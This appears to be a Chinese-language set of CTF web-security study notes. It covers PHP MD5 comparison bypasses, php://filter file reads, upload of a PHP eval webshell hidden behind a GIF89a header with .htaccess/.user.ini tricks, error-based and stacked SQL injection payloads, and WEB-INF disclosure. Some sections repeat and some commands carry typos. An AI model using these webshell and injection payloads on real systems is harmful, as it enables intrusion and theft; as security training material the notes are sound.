


# 1.WEB

## 1.Json数据格式

### JSON数值

- 格式：{ “key” : value}
- 示例： {“key1”:100,“key2”:20}

###  JSON字符串

- 格式：{ “key” : “value”}
- 示例： {“key1” : “张三”,“key2” : “大忽悠”}

###  JSON数组

- 格式：{ “key” : [value]}
- 示例：{key" : [000, 111111],“key1” : [18874, 15157]}

###  JSON对象

- 格式：{ “key” : {value}}
- 示例： {“key” : {“1”: “亚索”},“key1” : {“2”: “刘备”}}

### JSON[对象数组](https://so.csdn.net/so/search?q=对象数组&spm=1001.2101.3001.7020)

- 格式：{ “key” : [{“key1”: “value1”},{“key2”: “value2”}]}
- 示例：{“我”:[{“key”: “好好学习”},{“key1”:“天天向上”}]}
-   {
          "我" : [
                        {"key": "好好学习"},
                        {"key1": "天天向上"}
          ]
      }

###  JSON数组对象

- 格式：{“key”:{“key1”:[value1,value2]}}
- 示例：{“我”:{“你” : [18874,15157]}}
-   {
          "我" : {
                        "你" : [18874,15157]           
          }
      }

## 2.Md5绕过

### 常规的0e绕过

- QNKCDZO
- 240610708
- s878926199a
- s155964671a
- s214587387a
- s214587387a

这些字符串的 md5 值都是 0e 开头，在 php 弱类型比较中判断为相等

### 数组绕过(强弱比较皆可绕过)

较低版本的 PHP 中, MD5()函数在接收一个数组后, 不管数组内容是什么都会返回 null

提交name[]=123 &password[]=234

### 强类型绕过

if((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b']))

URL解码后MD5值相等

**1.**a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2

**2.**$Param1="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x00\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\x55\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";
$Param2="\x4d\xc9\x68\xff\x0e\xe3\x5c\x20\x95\x72\xd4\x77\x7b\x72\x15\x87\xd3\x6f\xa7\xb2\x1b\xdc\x56\xb7\x4a\x3d\xc0\x78\x3e\x7b\x95\x18\xaf\xbf\xa2\x02\xa8\x28\x4b\xf3\x6e\x8e\x4b\x55\xb3\x5f\x42\x75\x93\xd8\x49\x67\x6d\xa0\xd1\xd5\x5d\x83\x60\xfb\x5f\x07\xfe\xa2";

**3.**$data1="\xd1\x31\xdd\x02\xc5\xe6\xee\xc4\x69\x3d\x9a\x06\x98\xaf\xf9\x5c\x2f\xca\xb5\x07\x12\x46\x7e\xab\x40\x04\x58\x3e\xb8\xfb\x7f\x89\x55\xad\x34\x06\x09\xf4\xb3\x02\x83\xe4\x88\x83\x25\xf1\x41\x5a\x08\x51\x25\xe8\xf7\xcd\xc9\x9f\xd9\x1d\xbd\x72\x80\x37\x3c\x5b\xd8\x82\x3e\x31\x56\x34\x8f\x5b\xae\x6d\xac\xd4\x36\xc9\x19\xc6\xdd\x53\xe2\x34\x87\xda\x03\xfd\x02\x39\x63\x06\xd2\x48\xcd\xa0\xe9\x9f\x33\x42\x0f\x57\x7e\xe8\xce\x54\xb6\x70\x80\x28\x0d\x1e\xc6\x98\x21\xbc\xb6\xa8\x83\x93\x96\xf9\x65\xab\x6f\xf7\x2a\x70";
$data2="\xd1\x31\xdd\x02\xc5\xe6\xee\xc4\x69\x3d\x9a\x06\x98\xaf\xf9\x5c\x2f\xca\xb5\x87\x12\x46\x7e\xab\x40\x04\x58\x3e\xb8\xfb\x7f\x89\x55\xad\x34\x06\x09\xf4\xb3\x02\x83\xe4\x88\x83\x25\x71\x41\x5a\x08\x51\x25\xe8\xf7\xcd\xc9\x9f\xd9\x1d\xbd\xf2\x80\x37\x3c\x5b\xd8\x82\x3e\x31\x56\x34\x8f\x5b\xae\x6d\xac\xd4\x36\xc9\x19\xc6\xdd\x53\xe2\xb4\x87\xda\x03\xfd\x02\x39\x63\x06\xd2\x48\xcd\xa0\xe9\x9f\x33\x42\x0f\x57\x7e\xe8\xce\x54\xb6\x70\x80\xa8\x0d\x1e\xc6\x98\x21\xbc\xb6\xa8\x83\x93\x96\xf9\x65\x2b\x6f\xf7\x2a\x70";

`ffifdyop` 这个字符串被 md5 哈希了之后会变成 `276f722736c95d99e921722cf9ed621c`，这个字符串前几位刚好是 ' `or '6`
而 Mysql 刚好又会把 hex 转成 ascii 解释，因此拼接之后的形式是 `select * from 'admin' where password='' or '6xxxxx'`，等价于 or 一个永真式，因此相当于万能密码，可以绕过md5()函数。

### $a==md5($a)

## 3.php伪协议

1.是格式
2.是可选参数，有read和write，字面意思就是读和写
3.是过滤器。主要有四种：字符串过滤器，转换过滤器，压缩过滤器，加密过滤器。filter里可以用一或多个过滤器（中间用|隔开），这也为解题提供了多种方法，灵活运用过滤器是解题的关键。这里的过滤器是把文件flag.php里的代码转换（convert）为base64编码（encode）
4.是必选参数，后面写你要处理的文件名

php://filter/read=convert.base64-encode/resource=index.php
php://filter/resource=index.php

## 4.文件上传漏洞

### 1.一句话木马

 方便绕过开头可以加上GIF89a gif的文件头

1. GIF89a

<?php @eval($_POST[cmd]); ?>

2.

然后蚁剑连接

### 2、 .htaccess文件解析漏洞

php.ini是php的一个全局配置文件，对整个web服务起作用；而.user.ini和.htaccess一样是目录的配置文件。这里我们可以把.user.ini看作是用户自定义的一个php.ini，并且可以利用这个文件来构造后门和隐藏后门。

.user.ini。它比.htaccess用的更广，不管是nginx/apache/IIS，只要是以fastcgi运行的php都可以用这个方法。

第一种、虽然好用，但是会误伤其他正常文件，容易被发现

> <IfModule mime_module>
> AddHandler php5-script .gif          #在当前目录下，只针对gif文件会解析成Php代码执行
> SetHandler application/x-httpd-php    #在当前目录下，所有文件都会被解析成php代码执行
> </IfModule>

第二种、精确控制能被解析成php代码的文件，不容易被发现

> <FilesMatch "evil.gif">
> SetHandler application/x-httpd-php   #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> AddHandler php5-script .gif          #在当前目录下，如果匹配到evil.gif文件，则被解析成PHP代码执行
> </FilesMatch>

第三种、同1没太大区别

> <IfModule mime_module>
> AddType application/x-httpd-php .gif
> </IfModule>

上传.htaccess，需要将文件格式改为 image/jpeg

上传.htaccess中识别的文件

蚁剑连接，连接的是上传文件所在的位置 

例：http://789b3aeb-6590-4b6a-89bb-17c389233df7.node4.buuoj.cn:81/upload/ff435120073c8f309f3001ca17632671/flag.jpg

对.htacccess进行过滤时

### 3、 .user.ini(局限在当前目录下有php文件)

GIF89a 

auto_prepend_file=b.gif //文件名为之前上传的一句话木马文件

## 5.网站源码备份文件

常见的网站源码备份文件后缀:

tar.gz，zip，rar，tar

常见的网站源码备份文件名：

web，website，backup，back，www，wwwroot，temp

例如：www.zip

 可以使用dirsearch扫描 在D:\Program\PYthon\Python\dirsearch-master目录下

python dirsearch.py -u 网址

## 6.waf绕过

scandir（）用来获取目录文件

chr（47）是`/`的ASCII编码，因为`/`被过滤了

## 7.get传数组

GET http://localhost:8080/users?roleIds=1&roleIds=2

GET http://localhost:8080/users?roleIds[0]=1&roleIds[1]=2

GET http://localhost:8080/users?roleIds[]=1&roleIds[]=2

GET http://localhost:8080/users?roleIds=1,2

## 8.请求头

User-Agent：标识客户端使用的浏览器和操作系统信息。可以通过$_SERVER['HTTP_USER_AGENT']获取。

Accept：指定客户端能够处理的内容类型，即可接受的媒体类型。可以通过$_SERVER['HTTP_ACCEPT']获取。

Content-Type：指定请求体中的数据格式类型。常见的取值有application/json、application/x-www-form-urlencoded等。可以通过$_SERVER['CONTENT_TYPE']获取。

Authorization：用于进行身份验证的凭证信息。常见的取值有Bearer Token、Basic Authentication等。可以通过$_SERVER['HTTP_AUTHORIZATION']获取。

Cookie：包含来自客户端的Cookie信息。可以通过$_SERVER['HTTP_COOKIE']获取。

Referer：指示当前请求是从哪个URL页面发起的。可以通过$_SERVER['HTTP_REFERER']获取。

Host：指定服务器的域名或IP地址。可以通过$_SERVER['HTTP_HOST']获取。

X-Requested-With：指示请求是否由Ajax发起的。通常在Ajax请求中会设置该头部字段，取值为"XMLHttpRequest"。可以通过$_SERVER['HTTP_X_REQUESTED_WITH']获取。

Content-Length：指定请求体的长度。可以通过$_SERVER['CONTENT_LENGTH']获取。

Cache-Control：控制缓存行为的指令。用于指定客户端和代理服务器如何缓存响应。可以通过$_SERVER['HTTP_CACHE_CONTROL']获取。

**`X-Forwarded-For`**（XFF）请求标头是一个事实上的用于标识通过代理服务器连接到 web 服务器的客户端的原始 IP 地址的标头。

session是认证用户身份的凭证

1. 用户不可以任意篡改
2. A用户的session无法被B用户获取

## 9.Tornado

Cookies和secure cookies

普通的cookie并不安全, 可以通过客户端修改. 如果你需要通过设置cookie, 例如来识别当前登录的用户, 就需要给你的cookie签名防止伪造. Tornado 支持通过 [`set_secure_cookie`](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.RequestHandler.set_secure_cookie) 和 [`get_secure_cookie`](https://tornado-zh.readthedocs.io/zh/latest/web.html#tornado.web.RequestHandler.get_secure_cookie) 方法对cookie签名

------

在tornado模板中，存在一些可以访问的快速对象,这里用到的是handler.settings，handler 指向RequestHandler，而RequestHandler.settings又指向self.application.settings，所以handler.settings就指向RequestHandler.application.settings了，这里面就是我们的一些环境变量。

简单理解handler.settings即可，可以把它理解为tornado模板中内置的环境配置信息名称，通过handler.settings可以访问到环境配置的一些信息，看到tornado模板基本上可以通过handler.settings一把梭。

使用·{{}}访问

## 10.WEB_INF

WEB-INF是java的WEB应用的安全目录。

1.WEB-INF/web.xml

web应用程序配置文件，描述了servlet和其他的应用组件配置及命名规则。

2.WEB-INF/classes

包含了站点所有用的class文件，包括servlet class和非servlet class

3.WEB-INF/lib

存放web应用需要的JAR文件

4.WEB-INF/src

源码目录，按照包名结构放置各个java文件

5.WEB-INF/database.properties

数据库配置文件

6.WEB-INF/tags

存放了自定义标签文件

7.WEB-INF/jsp

jsp 1.2 一下版本的文件存放位置。

8.WEB-INF/jsp2

存放jsp2.0以下版本的文件。

9.META-INF

相当于一个信息包。

漏洞形成原因：

Tomcat的WEB-INF目录，每个j2ee的web应用部署文件默认包含这个目录。

Nginx在映射静态文件时，把WEB-INF目录映射进去，而又没有做Nginx的相关安全配置（或Nginx自身一些缺陷影响）。从而导致通过Nginx访问到Tomcat的WEB-INF目录（请注意这里，是通过Nginx，而不是Tomcat访问到的，因为上面已经说到，Tomcat是禁止访问这个目录的。）。

漏洞利用方式：

直接在域名后面加上WEB-INF/web.xml就可以了。
根据web.xml配置文件路径或通常开发时常用框架命名习惯，找到其他配置文件或类文件路径。
dump class文件进行反编译。

**简单来说：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码。**

找到flag文件，通过目录下载

# 2.SQL注入

## 1.过滤

1.空格过滤使用括号绕过

2.and过滤使用^连接

3.等号过滤使用like

4.union select过滤 使用union/**/select

## 2.技巧

**1.**4.username=44&password=1'^extractvalue(1,concat(0x7e,(select(password)from(geek.H4rDsq1))))%23 

from(geek.H4rDsq1) 前面是库名，后面是表名

**2.**flag分为前后flag

username=44&password=1%27^extractvalue(1,concat(0x7e,(select(left(password,30))from(geek.H4rDsq1))))%23

username=44&password=1%27^extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))%23

将前后flag拼接

## 3.堆叠注入

1'; show tables;#

命令使用分号隔开

## 4.Mysql :handler命令（select被过滤）

handle 不是通用的sql语句，是Mysql独有的，可以逐行浏览某个表中的数据

handler 表名 open；打开表

handler 表名 read first；查看数据

handler 表名 read close;关闭表

geekuser,l0ve1ysq1

## 5.预编译

相当于将一个语句写入另一个语句，执行另一个语句

举例：查询ID为1的用户

> 1. 方法一：
>
>    select * form t_user where user_id = 1
>
> 2. 方法二：
>
>    prepare jia from 'select  * from t_user where user_id =1';
>
>    execute jia;
>
> 3. 方法三：
>
>    prepare jia from 'select * from t_user where user_id =?';
>
>    set @id=1;
>
>    execute jia using @id;
>
> 4. 方法四：
>
>    set @sql ='select * from t_user where user_id=1';
>
>    prepare jia from @sql;
>
>    exectue jia;
>
> 

# 3.PHP命令执行

file命令

text=file://+路径

data命令

text=data://text:text/plain,+内容

## 2.is_numeric函数

## 1.读取文件内容

file命令

text=file://+路径

data命令

text=data://text:text/plain,+内容

## 2.is_numeric函数

**作用：**判断是否是数字

### 思路1：

数值%00

数值%20   //%20是空格

%00数值

### 思路2：

转换为16进制字符串

